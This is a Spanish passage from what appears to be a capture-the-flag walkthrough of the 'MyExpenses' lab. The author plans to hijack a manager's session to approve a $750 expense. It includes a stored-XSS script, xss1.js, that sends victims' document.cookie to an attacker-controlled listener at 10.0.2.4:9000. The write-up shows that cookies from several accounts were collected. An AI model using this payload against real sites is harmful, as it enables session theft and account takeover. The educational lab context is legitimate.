 Aqui en la pagina ya logeados como Samuel (nosotros)
Vemos dentro de expense reports que debemos enviar la solicitud de pago de 750. Entonces la enviamos con el boton verde.

![](/img/MyExpenses/expenses6.png)

Una vez subido, significa que hemos hecho la solicitud para que nos paguen los $750, pero no significa que nos han pagado.

Viendo mi perfil me doy cuenta que nuestro manager es Mannon Riviere y buscando en la pagina de /admin/admin.php podemos ver que su usuario es ``mriviere``. Seguro que el es el que nos tiene que aceptar el pago de $750.

Ahora lo que tenemos que hacer es buscar la manera de obtener las cookies de session. Para esto en Home, vemos que podemos escribir un mensaje.

![](/img/MyExpenses/expenses7.png)

Creamos el script xss1.js
```
❯ cat xss1.js 
var request = new XMLHttpRequest();
request.open('GET', 'http://10.0.2.4:9000/?cookies=' + document.cookie);
request.send();
```
Montamos el servidor con python y nos llegan un monton de cookies de diferentes cuentas. Asi que por ultimo iremos a ver cual cookie es la de Mannon Riviere
